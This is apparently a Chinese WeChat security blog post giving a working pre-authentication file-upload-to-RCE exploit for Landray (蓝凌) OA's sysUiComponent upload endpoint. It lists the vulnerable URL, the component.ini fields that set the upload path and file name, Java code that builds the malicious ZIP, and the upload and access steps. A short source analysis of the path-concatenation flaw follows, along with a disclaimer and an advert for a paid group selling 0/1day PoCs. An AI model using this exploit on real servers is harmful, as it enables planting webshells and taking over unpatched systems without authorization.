 #  蓝凌 sysUiComponent 前台任意文件上传

原创 Pan3a  [ 安全绘景 ](javascript:void\(0\);)

**安全绘景** ![]()

微信号 gh_a4e19e42a2aa

功能介绍 致力于0/1day、红队攻防、渗透实战等研究和分享，在这你可以收获到一些poc、技巧。欢迎师傅们来扰，祝愿师傅们天天高危！

____

___发表于_

收录于合集

###
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责。

## 漏洞利用

  * 前台RCE

  * 出现如下情况则可能存在漏洞

  * `sys/ui/sys_ui_component/sysUiComponent.do?method=upload`

![]()

  * 制作恶意ZIP

  * 这里的`component.ini`和`hello.txt`是自己要创建好文件的，`hello.txt`为上传内容

  * 以下为`component.ini`文件内容，`id`值为上传后路径,`name`值为上传后文件名

    
    
    id=2023  
    name=hello.txt
    
    
    import org.apache.tools.zip.ZipEntry;  
    import org.apache.tools.zip.ZipOutputStream;  
      
    import java.io.*;  
    import java.util.zip.ZipException;  
      
    public class SysUiComponent {  
        public static void main(String[] args) {  
            String[] filesToZip = {"component.ini", "hello.txt"};  
            String zipFileName = "compressed.zip";  
      
            try {  
                zipFiles(filesToZip, zipFileName);  
                System.out.println("Files zipped successfully.");  
            } catch (Exception e) {  
                e.printStackTrace();  
            }  
        }  
      
        public static void zipFiles(String[] filesToZip, String zipFileName) throws IOException, ZipException {  
            try (FileOutputStream fos = new FileOutputStream(zipFileName);  
                 ZipOutputStream zipOut = new ZipOutputStream(fos)) {  
      
                for (String fileToZip : filesToZip) {  
                    File file = new File(fileToZip);  
                    if (file.exists()) {  
                        addToZip(file, file.getName(), zipOut);  
                    }  
                }  
            }  
        }  
      
        private static void addToZip(File file, String entryName, ZipOutputStream zipOut) throws IOException {  
            try (FileInputStream fis = new FileInputStream(file)) {  
                ZipEntry zipEntry = new ZipEntry(entryName);  
                zipOut.putNextEntry(zipEntry);  
      
                byte[] buffer = new byte[8192];  
                int bytesRead;  
                while ((bytesRead = fis.read(buffer)) != -1) {  
                    zipOut.write(buffer, 0, bytesRead);  
                }  
            }  
        }  
    }

  * 将生成的zip文件在上图箭头处上传即可。

![]()

  * 访问路径`resource/ui-component/` \+ `id`值 + `name`值

![]()

## 漏洞分析

  * 源码大概如下

![]()

  * 跟进`checkExtend`方法

![]()

  * 大致含义是获取上传的文件名和内容，将文件保存在一个随机命名的zip文件。

![]()

![]()

  * 接着继续向下看，这里对保存的zip文件进行解压，这里可能想到如致远的文件解压漏洞导致RCE。但是跟进去发现这里不允许`../`和`..\`进行跳转，若仅禁止前者，还可以使用后者进行跳转（局限Windows）。继续向下看发现解压之后必须要存在`component.ini`文件，并且该文件必须包含`id`和`name`值，最终返回一个JSON数据。

![]()

    
    
        private String getAppFolder(String extendId) {        return ConfigLocationsUtil.getWebContentPath() + "/" + "resource/ui-component" + "/" + extendId;    }

  * 将`extendId`值拼接到Web路径，并将解压的文件复制到该路径从而造成漏洞。

  

推广一波自己的星球：

安全绘景：持续更新0/1day的poc、红队技巧、实战文章、实用工具等资源，欢迎各位师傅来扰，不满意直接退款。最后祝愿各位师傅天天高危！

![]()

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


